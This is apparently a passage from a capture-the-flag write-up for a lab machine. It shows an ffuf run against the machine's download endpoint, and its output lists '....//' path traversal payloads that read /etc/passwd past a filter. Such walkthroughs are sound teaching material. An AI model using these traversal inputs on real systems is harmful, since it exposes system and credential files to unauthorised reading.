 It could be not vulnerable, or there could be some filtering to bypass. I’ll
use an LFI wordlist to check a lot at once with `ffuf`:

    
    
    oxdf@hacky$ ffuf -u http://snoopy.htb/download?file=FUZZ -w /opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -mc all -ac
    
            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       
    
           v2.0.0-dev
    ________________________________________________
    
     :: Method           : GET
     :: URL              : http://snoopy.htb/download?file=FUZZ
     :: Wordlist         : FUZZ: /opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt
     :: Follow redirects : false
     :: Calibration      : true
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Response status: all
    ________________________________________________
    
    ....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 95ms]
    ....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 96ms]
    ....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 97ms]
    ....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 97ms]
    ....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 98ms]
    ....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 97ms]
    ....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 98ms]
    ....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 98ms]
    ....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 98ms]
    ....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 99ms]
    ....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 101ms]
    ....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 101ms]
    ....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 101ms]
    ....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 103ms]
    ....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 102ms]
    ....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 102ms]
    ....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 104ms]
    ....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 104ms]
    ....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 104ms]